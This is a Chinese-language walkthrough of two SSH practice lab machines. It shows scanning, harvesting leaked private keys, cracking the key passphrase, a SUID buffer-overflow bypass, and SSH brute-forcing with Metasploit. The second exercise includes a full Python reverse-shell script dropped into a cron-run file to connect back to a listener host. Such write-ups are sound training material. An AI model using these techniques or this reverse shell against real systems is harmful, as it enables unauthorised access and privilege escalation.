# SSH服务训练题一

## SSH服务介绍

> SSH服务 => 建立在应用层基础上的安全协议，利用SSH登录远程服务器，是基于TCP端口号22的服务

### SSH协议认证机制

#### 基于口令的安全密钥

弱点：暴力破解对应用户名和密码，不一定是root权限

#### 基于密钥的安全认证

弱点：通过对主机信息的收集，获取到泄露的用户名和对应的密钥

## 信息收集

### 收集靶机信息

如果不知道靶机的IP地址，但已知靶机和kali在同一网段下，可以使用**nmap 192.168.1.13/24**寻找同一网段下的主机

然后使用nmap收集信息

> nmap -sV 靶场IP地址                  探测靶场开放的服务与服务的版本
> nmap -A -v 靶场IP地址               探测靶场全部信息
> nmap -O 靶场IP地址                   探测靶场的操作系统类型与版本





## 分析探测结果

### 对于SSH服务的22端口的靶场

首先考虑：
	1、暴力破解
	2、私钥泄露

### 对于开放http服务的80端口或者其他端口的靶场

首先考虑：
	1、使用浏览器访问对应靶场http服务
	2、使用探测工具如dirb对http目录进行探测
**特别注意：大于1024的端口，通常是可以给用户任意支配的端口**

扫描靶机端口和开放服务 如果有HTTP大端口 可以通过这个端口访问界面。显然该靶机开放了http服务及其所在端口，因此我们可以尝试访问该网址：



没有有价值的信息，源代码也一无所获。

接下来进入深度探测

## 挖掘敏感信息

使用浏览器对靶场IP的http服务探测， 对页面中展示的内容也要注意，尤其是联系人等信息，递归访问
对robots.txt、以及一些目录进行访问，对于开放ssh服务的靶场，务必要注意是否可以寻找到ssh私钥信息(id_rsa)
nikto -host 靶场IP地址也能够挖掘敏感信息

**使用dirb+url命令探测隐藏文件**



我们访问.ssh目录，可以得到：



因此该目录下有三个文件，分别是密文、私钥和公钥。我们访问前两个子文件得到id_rsa和authorized_keys


## 利用敏感、弱点信息

### 修改id_rsa权限

1、我们可以先用**ls -alh**查看它的权限



2、更新权限为读写权限

> chmod 600 id_rsa 

此时再次查看权限



## 利用已知信息尝试登录服务器

在刚才下载的私钥文件中我们可以得到一个用户名Simon，因此利用这个用户名登录服务器

1、登录服务器

> ssh -i id_rsa simon@192.168.1.12

然而需要输入一个passphrase




2、解密rsa密钥信息

利用ssh2john，即 **John the Ripper**一个开源的密码破解工具，解密密钥信息

> ssh2john id rsa > rsacrack命令将得到的结果输入rsacrack文件中

3、使用字典破解rsacrack文件，得到密码

>  zcat /usr/share/wordlists/rockyou.txt.gz|john --pipe --rules rsacrack



成功得到密码

再次以simon的身份尝试登录服务器，密码为starwars



## 提权

但我们现在是以simon的身份登录的，并不是root。我们需要获得root权限，因此我们需要提权。

1、查看具有root权限的文件

> find / -perm -4000 2>/dev/null   
>
>  2>/dev/null 表示错误输出



利用read_message.c文件

2、查看read_message.c文件



3、进行代码审计

- gets()函数导致缓冲区溢出，允许攻击者覆盖内存，甚至控制程序流
- strncmp()函数仅比较前五个字符，攻击者可以通过SimonX绕过验证
- execve()的第二个和第三个参数不能为NULL

4、运行程序，利用漏洞获取root权限



显然我们通过输入SimonAAAAAAAAAAAAAAA/bin/sh进入了root权限下的命令行

## 获得flag

最终得到flag

flag3{das_bof_meister}


# SSh服务训练题二

## 信息收集

前提：将kali攻击机和靶机都设置成桥接模式，且要确保连上网

用nmap扫面一下kali攻击机所在的网段，得到靶机的IP地址

### 收集靶机信息

> nmap -sV  靶机ip地址   查看靶机开放的端口和服务



可知靶机开放了http的80端口和tcp的22端口

因此可以访问该IP80端口的网站 




## 挖掘敏感信息

通过网站表面，我们观察到三个用户Martin\Hadi\Jimmy

查看源代码没有发现什么

### 探测网站目录



扫出来了一堆，但我们只需要有用的，icons这个目录

尝试访问得到：



有一个可疑的文件，我们查看一下



发现泄露出来的私钥

### 利用信息

用wget命令将私钥下载下来

> wget "http://192.168.1.14/icons/VDSoyuAXiO.txt" 并重命名为id_rsa
>

## 尝试登录服务器

已知私钥，我们可以利用刚才泄露的用户名，尝试登录服务器

### 授权私钥600的权限（可读可写）

> chmod 600 id_rsa

### 尝试登录

> ssh -i id_rsa martin@IP地址
>
> 但是我直接输入这个命令报错：no mutual signature supported  于是善用搜索了一下，发现需要加上参数
>
> ssh -i id_rsa martin@192.168.1.14 -o PubkeyAcceptedKeyTypes=+ssh-rsa

成功登录

## 提权

### 第一次提权

martin用户提权：

1、查看用户当前的身份信息



显然只是普通用户

2、查看具有root权限的文件



无可以利用的

3、查看定时任务



最后一个python文件可以被我们利用

### 第二次提权

利用定时任务，使用nc监听端口，实现反弹shell

在当前用户下的/tmp路径创建一个同名的python文件，编写一个反向shell脚本

```
#!/usr/bin/python         #用来告诉操作系统用哪个解释器来执行这个脚本，这个例子中会使用/usr/bin/python路径的python解释器执行
import os,subprocess,socket    #导入模块，os用于与操作系统交互   subprocess用于启动和与子进程进行交互，socket用于网络通信，创						      #建套接字来发送和接收数据
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  #socket.AF_INET：指定使用 IPv4 地址 socket.SOCK_STREAM：指定使用流式套													接字，也就是 TCP 套接字
s.connet(("监听主机",监听端口))	#通过tcp连接连接到攻击者的机器
#重定向标准输入，通过这三行代码，目标机器的所有输入输出都被重定向到攻击者机器的连接上，攻击者就能够与目标机器的shell进行交互
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
#执行一个交互式shell，这段代码调用/bin/sh启动一个新的shell,-i参数表示启动一个交互式shell
p=subprocess.call(["/bin/sh","-i"])
```

同时开启一个新的终端，开始监听



进入jimmy用户的交互式shell

同样查看其用户信息发现：



还是无法提权

### 最后提权

那么只剩最后一个用户hadi了

我们使用暴力破解，暴力得到该用户的密码登录服务器

#### 获得定制密码本

从github上下载下来cupp.py这个程序生成可定制密码本



#### 使用msfconsole工具进行暴力破解



> 攻击模块：use auxiliary/scanner/ssh/ssh_login
>
> 参数：
>
> ​	RHOSTS : 靶机IP地址
>
> ​	USERNAME：hadi
>
> ​	PASS_FILE：密码本路径
>
> 开始攻击 run 或者exploit

